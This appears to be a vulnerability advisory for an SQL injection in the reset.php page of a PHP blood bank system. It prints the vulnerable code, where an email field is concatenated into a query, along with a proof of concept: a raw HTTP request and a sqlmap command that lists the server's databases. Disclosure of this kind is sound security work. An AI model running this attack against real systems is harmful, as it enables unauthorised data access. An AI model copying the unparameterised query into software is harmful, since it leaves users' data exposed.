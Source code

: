 # blood-bank-system-in-php-sql-injection

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

reset.php  and $usermail parameter 

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

## PROBLEM TYPE

network remote.

## Vulnerability Type

sql injection

## Root Cause

In reset.php file and $usermail parameter,   SQL injection is used to obtain database information.

## Impact

## **Description of the vulnerability**

### reset.php

source code，the    $useremail parameter is not filtered and concatenated into the SQL statement.                                                                                                                                                                                                                                                                                                                                                                                                                                                               

```
      <?php
      
require 'functions/functions.php';
require_once 'connection.php';
      $user= $pass="";
      if(isset($_POST['sub']))
      {
       $useremail=$_POST['useremail'];
        $q=$db-> prepare("SELECT * from login where useremail='$useremail'");
        $q->execute();
        $res=$q->fetchAll(PDO::FETCH_OBJ);
        if($res)
        {
         $_SESSION['useremail']=$useremail;
         header("location:successfull.html");
        }
        else
        {
          echo"<script>alert('Wrong email or password')</script>";
        }
          
          function test_input($data){
            $data=trim($data);
            $data=stripslashes($data);
            $data=htmlspecialchars($data);
            return $data;

          }

      }
?>
```

## **Vulnerability recurrence**

### **POC**

```
POST /reset.php HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/reset.php
Cookie: PHPSESSID=8naqhmhttbn8jta9roecg7nsoq
Upgrade-Insecure-Requests: 1
Priority: u=0, i

sub=1&useremail=2
```

save as sql.txt，excute the command.

```
python sqlmap.py -r "D:\sql.txt"    --dbs
```

get databases name.

![image-20241011162422264](https://github.com/user-attachments/assets/97b6bf50-6526-4a39-8a8b-65d07116bf1a)

